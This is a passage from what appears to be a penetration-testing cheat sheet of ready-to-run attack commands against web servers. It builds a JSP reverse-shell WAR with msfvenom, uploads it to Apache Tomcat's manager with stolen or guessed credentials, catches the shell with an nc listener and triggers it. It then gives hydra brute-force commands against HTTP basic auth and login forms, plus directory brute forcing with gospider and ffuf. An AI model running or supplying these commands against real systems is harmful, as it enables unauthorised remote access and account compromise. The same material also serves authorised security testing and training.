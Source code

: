 ```
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```

### WebDav

```
davtest -url <URL>
```

### HTTP brute force authentication

#### HTTP basic authentication

```
hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15
```

#### HTTP GET request

```
hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
```

#### HTTP POST request

```
hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>
```

### Spidering / Brute force directories / files

```
gospider -d <DEPTHS> --robots --sitemap -t <THREADS> -s <URL>

ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/FUZZ -e .php,.txt -t <THREADS>
dirbuster

Dictionaries :
   - /usr/share/wordlists/dirb/common.txt
   - /usr/share/wordlists/dirb/big.txt
   - /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
